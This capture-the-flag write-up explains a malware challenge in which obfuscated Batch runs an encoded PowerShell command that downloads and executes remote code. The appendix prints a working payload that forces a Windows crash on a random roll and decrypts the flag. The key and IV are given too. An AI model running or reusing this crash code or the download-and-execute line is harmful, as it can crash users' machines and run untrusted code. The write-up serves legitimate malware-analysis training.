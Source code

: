 # Russian Roulette

## Description

<small>Author: @JohnHammond</small><br><br>My PowerShell has been acting <i>really weird!!</i> It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! <b>:(</b> <br><br> <b><span style="color:red;">WARNING:</span> Please examine this challenge inside of a virtual machine  for your own security. Upon invocation there is a real possibility that your VM may crash.</b> <br><br> <b>NOTE: Archive password is <code>russian_roulette</code></b> <br><br> <b>Download the file(s) below.</b><br>


## Files

* [russian_roulette.zip](<files/russian_roulette.zip>)

## Solution

Russian Roulette is obfuscated Batch, which ultimately executes a web request to an external server. The data from the server is the PowerShell saved in the _Appendix_.

The PowerShell AES decrypts the flag. We can do the same by putting the values into refinery:
```
emit "RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw" |r.b64 | r.aes b64:"/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=" --iv b64:"9sXGmK4q9LdYFdOp4TSsQw=="
```

### Deobfuscating Batch

The batch can be deobfuscated with a tool such as the following:
https://github.com/gdesmar/batch_deobfuscator

The line of interest in the deobfuscated batch file is the following, which ultimately invokes a web request to get the PowerShell in the _Appendix_ section:
```
powershell -e aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==
```

## Appendix

```powershell
$s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"
```